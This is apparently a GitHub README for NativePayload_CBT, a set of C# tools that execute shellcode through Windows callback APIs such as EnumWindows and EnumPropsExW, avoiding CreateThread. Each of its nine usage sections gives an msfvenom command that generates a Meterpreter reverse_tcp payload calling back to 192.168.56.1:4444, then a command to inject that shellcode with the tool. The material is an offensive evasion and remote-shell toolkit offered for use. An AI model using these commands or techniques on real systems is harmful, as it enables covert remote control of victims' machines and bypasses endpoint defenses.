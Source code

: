# NativePayload_CBT 
NativePayload_CallBackTechniques C# Codes (Code Execution via Callback Functions, without CreateThread Native API)
------------
Note: These C# Codes Tested by .Net Framework 3.5 or 4.0 only ;) & some of Codes are ready but i will Publish almost all of them from S4R1N C++ repo (soon)

Note: These Useful Techniques made by Security Researcher @S4R1N. 

Special Thanks to S4R1N for Original C++ Source:  https://github.com/S4R1N/AlternativeShellcodeExec
--------------------------------------------
C# Codes: "New C# codes for Callback Functions will publish here soon..."
   
    1. NativePayload_ImageGetDigestStream.cs
    2. NativePayload_EnumWindows.cs
    3. NativePayload_EnumWindowStationsW.cs
    4. NativePayload_EnumResourceTypesW.cs
    5. NativePayload_EnumChildWindows.cs
    6. NativePayload_EnumDisplayMonitors.cs
    7. NativePayload_EnumPageFilesW.cs
    8. NativePayload_EnumPropsExW.cs
    9. NativePayload_EnumerateLoadedModules.cs
--------------------------------------------

1. NativePayload_ImageGetDigestStream.cs (Callback Functions Technique via ImageGetDigestStream Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_ImageGetDigestStream.exe  [payload...]
    example: NativePayload_ImageGetDigestStream.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_ImageGetDigestStream.png)

 -----------------------------------------------------------    
2. NativePayload_EnumWindows.cs (Callback Functions Technique via EnumWindows Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumWindows.exe  [payload...]
    example: NativePayload_EnumWindows.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumWindows.png)

 --------------------------------------------    
3. NativePayload_EnumWindowStationsW.cs (Callback Functions Technique via EnumWindowStationsW Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumWindowStationsW.exe  [payload...]
    example: NativePayload_EnumWindowStationsW.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumWindowStationW.png)
   
   --------------------------------------------    
4. NativePayload_EnumResourceTypesW.cs (Callback Functions Technique via EnumResourceTypesW Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumResourceTypesW.exe  [payload...]
    example: NativePayload_EnumResourceTypesW.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumResourceTypesW.png)

 --------------------------------------------    
5. NativePayload_EnumChildWindows.cs (Callback Functions Technique via EnumChildWindows Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumChildWindows.exe  [payload...]
    example: NativePayload_EnumChildWindows.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumChildWindows.png)

 --------------------------------------------    
6. NativePayload_EnumDisplayMonitors.cs (Callback Functions Technique via EnumDisplayMonitors Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumDisplayMonitors.exe  [payload...]
    example: NativePayload_EnumDisplayMonitors.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumDisplayMonitors.png)

 --------------------------------------------    
7. NativePayload_EnumPageFilesW.cs (Callback Functions Technique via EnumPageFilesW Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumPageFilesW.exe  [payload...]
    example: NativePayload_EnumPageFilesW.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumPageFilesW.png)

 --------------------------------------------   
8. NativePayload_EnumPropsExW.cs (Callback Functions Technique via EnumPropsExW Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumPropsExW.exe  [payload...]
    example: NativePayload_EnumPropsExW.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumPropsExW.png)

 --------------------------------------------   
 9. NativePayload_EnumerateLoadedModules.cs (Callback Functions Technique via EnumerateLoadedModules/W64 Native API)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_EnumerateLoadedModules.exe  [payload...]
    example: NativePayload_EnumerateLoadedModules.exe "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_CBT/blob/main/Pics/_CallBack_EnumerateModulesLoaded_W64.png)

 --------------------------------------------   
